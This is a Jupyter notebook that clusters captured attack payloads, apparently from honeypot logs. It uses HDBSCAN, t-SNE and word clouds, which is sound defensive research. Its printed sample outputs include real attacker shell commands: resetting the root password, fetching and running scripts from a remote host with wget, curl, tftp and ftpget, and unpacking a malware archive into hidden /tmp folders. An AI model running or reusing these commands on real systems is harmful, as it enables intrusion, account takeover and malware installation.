# "Explode" the dataframe so each intent in the list gets its own row
exploded_df = analysis_df.explode('Set_Fingerprint')

# Create the crosstab from the exploded data
ctab_exploded = pd.crosstab(exploded_df['cluster'], exploded_df['Set_Fingerprint'])

plt.figure(figsize=(14, 6))
sns.heatmap(ctab_exploded, annot=True, fmt="d", cmap="YlGnBu")
plt.title("Detailed Intent Distribution per Cluster")
plt.show()

## HDBSCAN

In [10]:
# Computing Silhouette Score for HDBSCAN configurations
import hdbscan
import numpy as np
import itertools
from sklearn.metrics import silhouette_score

# Tuning min_cluster_size, min_samples and cluster_selection_epsilon
param_grid = {
    'min_cluster_size': [25, 50, 250, 500],
    'min_samples': [20, 50, 100, 500],
    'cluster_selection_epsilon': [0.001, 0.01, 0.1]
}

combinations = list(itertools.product(*param_grid.values()))
results = []
print(f"Starting Grid Search across {len(combinations)} combinations...")
# using silhouette score as metric

# Subsampling for speed, but only for evaluation
np.random.seed(42)
eval_indices = np.random.choice(len(X_svd), size=10000, replace=False)
X_eval = X_svd[eval_indices]

for mcs, ms, cse in combinations:
    try:
        #  initialize and Fit
        clusterer = hdbscan.HDBSCAN(
            min_cluster_size=mcs,
            min_samples=ms,
            cluster_selection_epsilon=cse,
            core_dist_n_jobs=-1,
            prediction_data=True,
            memory='./hdbscan_cache'
        )
        full_labels = clusterer.fit_predict(X_svd)

        # Extract the labels specific to X_eval indices
        eval_labels = full_labels[eval_indices]

        # Filter out noise from X_eval and eval_labels
        # Silhouette is mathematically undefined for 'noise' points
        mask = eval_labels != -1
        X_eval_clustered = X_eval[mask]
        labels_eval_clustered = eval_labels[mask]

        # Calculate Score
        if len(set(labels_eval_clustered)) > 1:
            score = silhouette_score(X_eval_clustered, labels_eval_clustered, random_state=42)
            print(f"Tested: MCS={mcs}, MS={ms}, CSE={cse} | Silhouette: {score:.4f} | Points used: {len(X_eval_clustered)}")
        else:
            print("Error: The subsample does not contain at least 2 distinct clusters (excluding noise).")
        
        n_clusters_found = len(set(full_labels)) - (1 if -1 in full_labels else 0)
        print(f"Number of clusters found: {n_clusters_found}")
        results.append({
            'min_cluster_size': mcs,
            'min_samples': ms,
            'cluster_selection_epsilon': cse,
            'n_clusters_found': n_clusters_found,
            'silhouette': score
        })
        
    except Exception as e:
        continue

# Convert to DataFrame for analysis
results_df = pd.DataFrame(results).sort_values(by='silhouette', ascending=False)
print("\n--- Best HDBSCAN Configurations ---")
print(results_df.head(5))

Starting Grid Search across 48 combinations...
Tested: MCS=25, MS=20, CSE=0.001 | Silhouette: 0.1369 | Points used: 9924
Number of clusters found: 103
Tested: MCS=25, MS=20, CSE=0.01 | Silhouette: 0.6943 | Points used: 9963
Number of clusters found: 41
Tested: MCS=25, MS=20, CSE=0.1 | Silhouette: 0.9156 | Points used: 9998
Number of clusters found: 8
Tested: MCS=25, MS=50, CSE=0.001 | Silhouette: 0.1923 | Points used: 9882
Number of clusters found: 79
Tested: MCS=25, MS=50, CSE=0.01 | Silhouette: 0.6240 | Points used: 9957
Number of clusters found: 30
Tested: MCS=25, MS=50, CSE=0.1 | Silhouette: 0.9377 | Points used: 9993
Number of clusters found: 8
Tested: MCS=25, MS=100, CSE=0.001 | Silhouette: 0.2843 | Points used: 9836
Number of clusters found: 48
Tested: MCS=25, MS=100, CSE=0.01 | Silhouette: 0.7477 | Points used: 9944
Number of clusters found: 23
Tested: MCS=25, MS=100, CSE=0.1 | Silhouette: 0.9619 | Points used: 9989
Number of clusters found: 9
Tested: MCS=25, MS=500, CSE=0.001 

In [ ]:
import hdbscan
import numpy as np

clusterer = hdbscan.HDBSCAN(
    min_cluster_size=250, 
    min_samples=500, 
    prediction_data=True, # Enables approximate_predict
    cluster_selection_epsilon= 0.1,
    core_dist_n_jobs=-1   # Uses all CPU cores for distance math
)

# Fit on the full data
cl_labels = clusterer.fit_predict(X_svd)

In [17]:
# Printing cluster details
import pandas as pd
import random
# Removing the truncation on long strings
pd.set_option('display.max_colwidth', None)
# printing to stdout samples from each cluster
n_clusters = len(set(cl_labels)) - (1 if -1 in cl_labels else 0)
print(f"Number of clusters found by HDBSCAN: {n_clusters}")
newDataSet['cluster'] = cl_labels
for i in range(n_clusters):
    print(f"\n--- Cluster {i} Details ---")
    cluster_data = newDataSet[newDataSet['cluster'] == i]

    # Printing payloads
    print("Payload Samples:")
    # Taking 10 random samples for each cluster
    if not cluster_data['decoded_payload'].empty:
        num_samples = min(15, len(cluster_data['decoded_payload']))
        samples = random.sample(list(cluster_data['decoded_payload']), num_samples)
        print(*samples, sep="\n---\n")
        print()
    else:
        print("No payload samples for this cluster.")

Number of clusters found by HDBSCAN: 7

--- Cluster 0 Details ---
Payload Samples:
cat /proc/cpuinfo | grep name | wc -l ; echo "root:r37Cv7QWwRFY" | chpasswd | bash ; echo "321" > /var/tmp/.var03522123 ; rm -rf /var/tmp/.var03522123 ; cat /var/tmp/.var03522123 | head -n 1 ; cat /proc/cpuinfo | grep name | head -n 1 | awk '{print $4,$5,$6,$7,$8,$9 ; }' ; free -m | grep Mem | awk '{print $2 ,$3, $4, $5, $6, $7}' ; ls -lh $(which ls) ; which ls ; crontab -l ; w ; uname -m ; cat /proc/cpuinfo | grep model | grep name | wc -l ; top ; uname ; uname -a ; lscpu | grep Model ; echo "root zackery" > /tmp/up.txt ; rm -rf /var/tmp/dota* ; cat /var/tmp/.systemcache436621 ; echo "1" > /var/tmp/.systemcache436621 ; cat /var/tmp/.systemcache436621 ; sleep 15s && cd /var/tmp ; echo "#!/bin/bash
cd /tmp	
rm -rf .ssh
rm -rf .mountfs
rm -rf .X13-unix
rm -rf .X17-unix
rm -rf .X19-unix
mkdir .X19-unix
cd .X19-unix
mv /var/tmp/dota3.tar.gz dota3.tar.gz
tar xf dota3.tar.gz
sleep 3s && cd /tmp/.X19-unix/.rsyn



In [18]:
from sklearn.manifold import TSNE
import matplotlib.pyplot as plt
import seaborn as sns
import numpy as np

# displaying clusters with t-SNE
sample_size = min(20000, len(X_svd))
np.random.seed(42)
indices = np.random.choice(len(X_svd), size=sample_size, replace=False)
X_sample = X_svd[indices]
labels_sample = cl_labels[indices]

# t-SNE
tsne = TSNE(n_components=2, perplexity=30, random_state=42, init='pca', learning_rate='auto')
X_tsne = tsne.fit_transform(X_sample)
# visualizaton
plt.figure(figsize=(12, 8))
palette = sns.color_palette("bright", 8)
scatter = sns.scatterplot(
    x=X_tsne[:, 0], y=X_tsne[:, 1],
    hue=labels_sample,
    palette=palette,
    legend='full',  
    alpha=0.6,
    s=60,
    edgecolor='white',
    linewidth=0.5
)

plt.legend(
    title="Attack Clusters",
    loc='best',  # placing the legend inside the plot at the best location, it is important not to cover data
    borderaxespad=0.5,
    fontsize=10,
    ncol=1 
)

plt.title('HDBSCAN - t-SNE View of Attack Clusters', fontsize=15)
plt.xlabel('t-SNE Dimension 1')
plt.ylabel('t-SNE Dimension 2')
plt.grid(True, linestyle=':', alpha=0.4)
plt.tight_layout()
plt.savefig('tsne_clusters_hdbscan.png')
plt.show()


In [19]:
# printing cluster sizes
import numpy as np
unique, counts = np.unique(cl_labels, return_counts=True)
cluster_sizes = dict(zip(unique, counts))
print("Cluster Sizes (including noise as cluster -1):")
for cluster_id, size in cluster_sizes.items():
    print(f"Cluster {cluster_id}: {size} samples")

Cluster Sizes (including noise as cluster -1):
Cluster -1: 463 samples
Cluster 0: 5458 samples
Cluster 1: 83454 samples
Cluster 2: 667 samples
Cluster 3: 779 samples
Cluster 4: 17578 samples
Cluster 5: 3001 samples
Cluster 6: 121635 samples


In [20]:
# Printing some outliers
outliers = newDataSet[newDataSet['cluster'] == -1]
print(f"Number of outliers detected by HDBSCAN: {len(outliers)}")
print("Some outlier payload samples:")
num_samples = min(20, len(outliers))
samples = random.sample(list(outliers['decoded_payload']), num_samples)
print(*samples, sep="\n---\n")

Number of outliers detected by HDBSCAN: 463
Some outlier payload samples:
cat /proc/cpuinfo | grep name | wc -l ; echo "root:TfxevPP2TGUh" | chpasswd | bash ; cat /proc/cpuinfo | grep name | head -n 1 | awk '{print $4,$5,$6,$7,$8,$9 ; }' ; free -m | grep Mem | awk '{print $2 ,$3, $4, $5, $6, $7}' ; ls -lh $(which ls) ; which ls ; crontab -l ; w ; uname -m ; cat /proc/cpuinfo | grep model | grep name | wc -l ; top ; uname ; uname -a ; lscpu | grep Model ;
---
cd /tmp ; wget http://IP_ADDRESS/read.txt -q ; curl -O http://IP_ADDRESS/read.txt --silent ; perl read.txt ; rm -rf read.txt* ; id ;
---
sh ; shell ; help ; busybox ; cd /tmp || cd /var/run || cd /mnt || cd /root || cd / ; wget http://IP_ADDRESS/bins.sh ; chmod 777 bins.sh ; sh bins.sh ; tftp IP_ADDRESS -c get tftp1.sh ; chmod 777 tftp1.sh ; sh tftp1.sh ; tftp -r tftp2.sh -g IP_ADDRESS ; chmod 777 tftp2.sh ; sh tftp2.sh ; ftpget -v -u anonymous -p anonymous -P 21 IP_ADDRESS ftp1.sh ftp1.sh ; sh ftp1.sh ; rm -rf bins.sh tftp1.sh tft

















In [52]:
from wordcloud import WordCloud
import matplotlib.pyplot as plt
import math
for i in range(n_clusters):
    cluster_data = newDataSet[newDataSet['cluster'] == i]
    text = " ".join(cluster_data['decoded_payload'].tolist())
    
    # the same token pattern as before
    tokens = re.findall(token_pattern, text)
    filtered_text = " ".join(tokens)
    wordcloud = WordCloud(width=800, height=400, background_color='white').generate(filtered_text)
    
    plt.figure(figsize=(10, 5))
    plt.imshow(wordcloud, interpolation='bilinear')
    plt.axis('off')
    plt.title(f'HDBSCAN Cluster {i} - Word Cloud')
    plt.show()

# displaying all wordclouds in a single image
import matplotlib.gridspec as gridspec
n_rows = math.ceil(n_clusters / 3)
fig = plt.figure(figsize=(16, n_rows * 4))
gs = gridspec.GridSpec(n_rows, 3, figure=fig)
for i in range(n_clusters):
    cluster_data = newDataSet[newDataSet['cluster'] == i]
    text = " ".join(cluster_data['decoded_payload'].tolist())
    
    tokens = re.findall(token_pattern, text)
    filtered_text = " ".join(tokens)
    wordcloud = WordCloud(width=800, height=400, background_color='white').generate(filtered_text)
    
    ax = fig.add_subplot(gs[i // 3, i % 3])
    ax.imshow(wordcloud, interpolation='bilinear')
    ax.set_title(f'Cluster {i}', fontsize=14, fontweight='bold', pad=10)
    ax.axis('off')

                Set_Fingerprint  cluster
0  [Defense Evasion, Discovery]        4
1  [Defense Evasion, Discovery]        4
2  [Defense Evasion, Discovery]        4
3  [Defense Evasion, Discovery]        4
4  [Defense Evasion, Discovery]        4


